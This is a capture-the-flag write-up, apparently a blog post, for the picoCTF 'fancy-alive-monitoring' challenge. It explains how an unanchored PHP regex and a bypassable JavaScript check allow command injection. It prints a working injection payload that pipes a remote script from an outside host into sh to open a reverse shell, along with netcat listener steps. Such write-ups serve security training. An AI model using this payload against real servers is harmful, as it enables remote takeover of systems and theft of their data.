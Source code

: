 ## fancy-alive-monitoring - Points: 400
>One of my school mate developed an alive monitoring tool. Can you get a flag from http://2018shell.picoctf.com:8587?

Note.
>The CTF server somehow blocked the outbound connection to non-standard ports. So on our own server, we need to listen on port 80, `sudo nc -lvp 80`.

The main purpose of this blog post is to demonstrate how to get a webshell from a web server.

A few facts about Webshell,

- Webshell, as its name indicates, is to obtain a shell by means of a website.

  This diffs from how shell is usually accessed, which is either remotely via SSH, or log in directly in a server's console.

- A shell can be either a Linux shell, like Bash/Zsh, etc., or a command prompt from Windows.


Of course, above is my understanding of what a Webshell is, and what I believe the term "Webshell' should represent, not authoritative, but should be close.

A Webshell can be utilized to serve different purposes. It can be used to gain complete control of a web server; to search for sensetive information on the server; or to be used as a outpost to gather further information that can help to infiltrate other parts of the infrastructure that share the same network as the web server, etc. etc.

Ok, let us back to our main business.

First of all, the server code is published on the challenge's website.

A few points to note,

- The `check()` function in the embedded javascript is doing a validation check against the IP address user inputted.

  Some interesting methods I read from other writeups to circumvent it,

  - we can send a HTTP POST request directly to the web server, thus bypassing the javascript validation.
  - or we can simiply replace the `check()` function in the `Console` inside the developer tool of a browser, with the following,

  ```javascript
  function check(){
    document.getElementById("monitor").submit();
  }
  ```

  That is, when the `Go!` button is clicked, the `check()` function will be calling `.submit()` right away to submit the form, without doing any validation against the input.

- After the data is posted to the server, there is a second check being performed.

`preg_match('/^(([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5]).){3}([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])/',$ip)`
  This check looks more promising, it does a decent job validating the IP address, which doesn't seem to expose any holes for exploitation.
  However, if we look more colsely, the regex doesn't end with a anchor `$`. That means as long as the data begins with a valid IP address, the data will be considered valid. This is where makes it vulnerable.
  
Since the symbol `;` can be used in PHP to chain the commands, if the payload of the POST request is `1.1.1.1 ; command`, then we can actually trick PHP to execute the command on the web sever!

Here, we will use the command to get a reverse shell from the web server, so the complete payload looks like, `1.1.1.1 ; curl https://shell.now.sh/52.18.79.59:5580 | sh`

`https://shell.now.sh` is a HTTP endpoint that accept an `IP:PORT` as a path parameter, that the web server will be connecting to.

In this demo, the machine to which the IP is attached is controlled by me, and the goal here is to instruct the web server to proactively connect to the `IP:PORT`, and present a shell on my machine, as if I am just SSH'ed into it.

To achieve that, we just do,

1. On my own machine, run `nc -lvp 80` to instruct it to listen on port 80.
1. Fire up `Console` in the developer tool, change the `check()` function to what just shown above.
1. Type in `1.1.1.1 ; curl https://shell.now.sh/52.18.79.59:5580 | sh` in the text box of the challenge website.
1. Back to `Console`, key in `check();` and press Enter.


